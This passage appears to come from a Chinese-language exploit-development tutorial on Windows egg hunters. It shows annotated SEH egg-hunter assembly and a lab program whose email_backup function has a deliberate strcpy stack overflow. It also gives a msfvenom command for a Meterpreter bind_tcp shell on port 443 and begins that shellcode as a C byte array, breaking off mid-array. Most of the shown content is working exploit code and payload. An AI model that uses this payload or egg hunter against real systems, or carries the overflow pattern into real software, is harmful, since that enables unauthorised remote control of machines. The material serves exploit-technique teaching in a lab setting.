 ```
0000002A 59         pop ecx
0000002B 8B040C     mov eax,[esp+ecx]   //esp+0xc是SEH handler的第三个入参struct _CONTEXT *ctx
0000002E B1B8       mov cl,0xb8
00000030 83040806   add dword [eax+ecx],byte +0x6   //*ctx+0xb8是SEH处理完成后返回的eip，发生访问异常的地址0x00000015，将其+0x6后，返回到0x0000001B
00000034 58         pop eax             //后续是为了维护堆栈平衡，保留返回地址，并将handler的四个入参弹栈，不过多赘述
00000035 83C410     add esp,byte +0x10
00000038 50         push eax
00000039 33C0       xor eax,eax
0000003B C3         ret
```

## 实战

为了演示该Egg Hunter是如何工作的，写了个程序，演示环境如下
```
操作系统:   Windows 2000(建议使用Virtual Box)
编译器：    VC6.0 (建议使用release版本调试)
调试器：    OllyDbg
```

演示程序模拟了一个邮件发送逻辑，填写message和email address，并备份email address。

其中备份email address的函数中存在栈溢出，但是溢出的空间有限，加返回地址仅64字节。

我们可以通过message，向内存中预先写入大的shellcode，如打开443端口，并接收metasploit的连接。在email address这个有限的空间中写入我们的Egg Hunter，去寻找我们的大的shellcode。

代码如下：
```
#include <windows.h>
#include <stdio.h>

void email_backup(char * input)
{
    char buf[56];
    //__asm int 3;
    strcpy(buf, input);     //此处栈溢出
    return;
}

main()
{
    /*unsigned char message[] = "\x5a\x5a\x5a\x5a\x5a\x5a\x5a\x5a"    //EGG标志位: ZZZZZZZZ
    //shellcode为metasploit生成的，在本机打开443端口方便远控，msf的命令如下：
    //msfvenom -a x86 --platform windows -p windows/meterpreter/bind_tcp LPORT=443 -e x86/alpha_mixed -b "\x00\xd5\x0a\x0d\x1a\x03" -f c
        "\xbf\xac\xf2\x9c\xfd\xda\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
        "\x4e\x83\xc2\x04\x31\x7a\x0f\x03\x7a\xa3\x10\x69\x01\x53\x56"
        "\x92\xfa\xa3\x37\x1a\x1f\x92\x77\x78\x6b\x84\x47\x0a\x39\x28"
        "\x23\x5e\xaa\xbb\x41\x77\xdd\x0c\xef\xa1\xd0\x8d\x5c\x91\x73"
        "\x0d\x9f\xc6\x53\x2c\x50\x1b\x95\x69\x8d\xd6\xc7\x22\xd9\x45"
        "\xf8\x47\x97\x55\x73\x1b\x39\xde\x60\xeb\x38\xcf\x36\x60\x63"
        "\xcf\xb9\xa5\x1f\x46\xa2\xaa\x1a\x10\x59\x18\xd0\xa3\x8b\x51"
        "\x19\x0f\xf2\x5e\xe8\x51\x32\x58\x13\x24\x4a\x9b\xae\x3f\x89"
        "\xe6\x74\xb5\x0a\x40\xfe\x6d\xf7\x71\xd3\xe8\x7c\x7d\x98\x7f"
        "\xda\x61\x1f\x53\x50\x9d\x94\x52\xb7\x14\xee\x70\x13\x7d\xb4"
        "\x19\x02\xdb\x1b\x25\x54\x84\xc4\x83\x1e\x28\x10\xbe\x7c\x24"
        "\xd5\xf3\x7e\xb4\x71\x83\x0d\x86\xde\x3f\x9a\xaa\x97\x99\x5d"
        "\xcd\x8d\x5e\xf1\x30\x2e\x9f\xdb\xf6\x7a\xcf\x73\xdf\x02\x84"
        "\x83\xe0\xd6\x31\x8f\x47\x89\x27\x72\x1d\x28\xc2\x8f\x89\xc0"
        "\x1d\x4f\xa9\xea\xf7\xf8\x41\x17\xf8\x07\x2a\x9e\x1e\x6d\x5c"
        "\xf7\x89\x1a\x9e\x2c\x02\xbc\xe1\x06\xe8\x82\x68\xf1\xa4\x6a"
        "\x25\xe8\x73\x94\xb6\x3e\xd4\x02\x3c\x2d\xe0\x33\x43\x78\x40"
        "\x23\xd3\xf6\x01\x06\x42\x06\x08\xf2\x84\x92\xb7\x55\xd3\x0a"
```